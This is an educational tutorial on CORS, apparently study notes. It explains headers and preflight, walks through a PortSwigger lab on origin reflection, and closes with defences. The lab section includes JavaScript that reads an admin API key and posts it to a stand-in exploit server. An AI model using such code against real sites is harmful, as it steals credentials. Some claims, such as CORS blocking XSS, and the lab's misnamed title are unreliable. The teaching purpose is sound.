

## Introduction to Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a mechanism that allows web applications to make requests to resources hosted on different domains. By default, web browsers enforce the same-origin policy, which restricts web pages from making requests to a different domain than the one that served the web page. However, with CORS, a server can explicitly permit cross-origin requests from specific domains, enabling web applications to interact with resources across domains securely.

### What is CORS?

CORS is a security feature implemented by web browsers to prevent malicious scripts from making unauthorized requests to other domains. It works by adding specific HTTP headers to the server's response, indicating which origins are allowed to access the resource. These headers include:

- `Access-Control-Allow-Origin`: Specifies which origins are permitted to access the resource.
- `Access-Control-Allow-Methods`: Lists the HTTP methods (GET, POST, etc.) that are allowed for cross-origin requests.
- `Access-Control-Allow-Headers`: Indicates which headers can be used in cross-origin requests.
- `Access-Control-Max-Age`: Specifies how long the results of a preflight request can be cached.

### Why is CORS Important?

CORS is crucial because it helps mitigate security risks associated with cross-site scripting (XSS) attacks. Without CORS, a malicious script could potentially make requests to a server on behalf of a user, leading to unauthorized data access or manipulation. By implementing CORS, servers can control which origins are allowed to access their resources, reducing the risk of such attacks.

### How CORS Works

When a browser makes a cross-origin request, it first sends a preflight request to the server to check if the actual request is allowed. The preflight request is an OPTIONS request that includes the `Origin` header and the `Access-Control-Request-Method` and `Access-Control-Request-Headers` headers. The server responds with the appropriate CORS headers, indicating whether the request is allowed.

If the server permits the request, the browser then sends the actual request. The server includes the necessary CORS headers in its response to indicate that the resource can be accessed by the specified origin.

### Example of a CORS Request

Let's consider a simple example where a web application hosted at `https://example.com` makes a request to a resource hosted at `https://api.example.org`.

#### Preflight Request

```http
OPTIONS /resource HTTP/1.1
Host: api.example.org
Origin: https://example.com
Access-Control-Request-Method: GET
Access-Control-Request-Headers: X-Custom-Header
```

#### Preflight Response

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST, PUT
Access-Control-Allow-Headers: X-Custom-Header
Access-Control-Max-Age: 86400
Content-Type: text/plain
```

#### Actual Request

```http
GET /resource HTTP/1.1
Host: api.example.org
Origin: https://example.com
X-Custom-Header: custom-value
```

#### Actual Response

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Content-Type: application/json
Content-Length: 20

{"data": "some data"}
```

### Real-World Examples of CORS Vulnerabilities

CORS vulnerabilities have been exploited in several real-world scenarios. One notable example is the case of a CORS misconfiguration in a popular social media platform, which allowed attackers to steal user session tokens. This vulnerability was exploited through a combination of XSS and CORS misconfiguration, allowing the attacker to make unauthorized requests to the platform's API.

Another example is the case of a financial institution that had a CORS misconfiguration, allowing attackers to make unauthorized requests to the institution's API. This led to the theft of sensitive financial data.

### Lab Exercise: Exploiting CORS Misconfiguration

In this lab exercise, we will explore a scenario where a web application has an insecure CORS configuration, allowing any origin to access its resources. Our goal is to exploit this misconfiguration to retrieve the administrator's API key.

#### Setup

To access the lab, follow these steps:

1. Visit the URL `https://portswigger.net/web-security`.
2. Click on the sign-up button to create an account.
3. Log in to your account.
4. Navigate to the Academy section.
5. Select the learning path for Cross Origin Resource Sharing.
6. Choose Lab No. 1 titled "Correspondability with Basic Origin Reflection".

#### Lab Goal

The goal of this lab is to exploit the CORS misconfiguration to retrieve the administrator's API key. We will achieve this by crafting some JavaScript that uses CORS to retrieve the API key and uploading the code to our exploit server.

#### Step-by-Step Solution

1. **Log into Your Account**

   Use the provided credentials to log into your account. The credentials are typically provided in the lab instructions.

2. **Access the Lab**

   Right-click and access the lab. Open Burp Suite Community Edition to intercept and analyze the traffic.

3. **Craft the JavaScript**

   We need to craft a JavaScript snippet that makes a cross-origin request to the server to retrieve the administrator's API key. Here is an example of the JavaScript code:

   ```javascript
   fetch('https://target.example.com/admin/api/key', {
     method: 'GET',
     mode: 'cors',
     headers: {
       'Content-Type': 'application/json'
     }
   })
   .then(response => response.json())
   .then(data => {
     console.log('API Key:', data.apiKey);
     // Upload the API key to the exploit server
     fetch('https://exploitserver.example.com/upload', {
       method: 'POST',
       body: JSON.stringify({ apiKey: data.apiKey }),
       headers: {
         'Content-Type': 'application/json'
       }
     });
   })
   .catch(error => console.error('Error:', error));
   ```

4. **Upload the JavaScript to the Exploit Server**

   Upload the crafted JavaScript to your exploit server. Ensure that the server is configured to receive and process the API key.

5. **Trigger the Attack**

   Trigger the attack by navigating to the exploit server URL in your browser. The JavaScript will execute, making the cross-origin request to the target server and retrieving the API key.

6. **Verify the Success**

   Verify that the attack was successful by checking the exploit server for the retrieved API key.

### Mermaid Diagram: CORS Attack Flow



### Common Pitfalls and Best Practices

#### Common Pitfalls

1. **Allowing All Origins**: A common mistake is setting `Access-Control-Allow-Origin` to `"*"` (allowing all origins). This can lead to unauthorized access if the server hosts sensitive resources.
2. **Incorrect Headers**: Incorrectly configuring CORS headers can result in unexpected behavior and potential security issues.
3. **Preflight Requests**: Not handling preflight requests correctly can cause the actual request to fail.

#### Best Practices

1. **Whitelist Specific Origins**: Only allow specific trusted origins to access your resources.
2. **Use Secure Headers**: Ensure that all necessary CORS headers are set correctly.
3. **Test Thoroughly**: Test your CORS configuration thoroughly to ensure that it behaves as expected in all scenarios.

### How to Prevent / Defend Against CORS Vulnerabilities

#### Detection

1. **Static Analysis**: Use static analysis tools to scan your code for potential CORS misconfigurations.
2. **Dynamic Testing**: Perform dynamic testing using tools like Burp Suite to identify and test CORS configurations.

#### Prevention

1. **Configure CORS Correctly**: Ensure that your CORS configuration is correct and only allows trusted origins.
2. **Use Content Security Policy (CSP)**: Implement a Content Security Policy to further restrict the sources of content that can be loaded by your web application.
3. **Secure Coding Practices**: Follow secure coding practices to avoid introducing vulnerabilities in your code.

#### Secure Coding Fix

Here is an example of a vulnerable CORS configuration and its secure counterpart:

**Vulnerable Configuration**

```json
{
  "Access-Control-Allow-Origin": "*",
  "Access-Control-Allow-Methods": "GET, POST, PUT"
}
```

**Secure Configuration**

```json
{
  "Access-Control-Allow-Origin": "https://trusted.example.com",
  "Access-Control-Allow-Methods": "GET, POST, PUT"
}
```

### Conclusion

CORS is a powerful mechanism that enables web applications to interact with resources across domains securely. However, it also introduces potential security risks if not configured correctly. By understanding how CORS works and following best practices, you can mitigate these risks and ensure the security of your web applications.

### Practice Labs

For hands-on practice with CORS vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs related to CORS vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application that includes CORS misconfigurations.
- **DVWA (Damn Vulnerable Web Application)**: Includes exercises related to CORS and other web security topics.

By completing these labs, you can gain practical experience in identifying and exploiting CORS vulnerabilities, as well as learning how to defend against them.

---
<!-- nav -->
[[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/02-Lab 1 CORS vulnerability with basic origin reflection/00-Overview|Overview]] | [[02-CORS Exploitation via Origin Reflection|CORS Exploitation via Origin Reflection]]
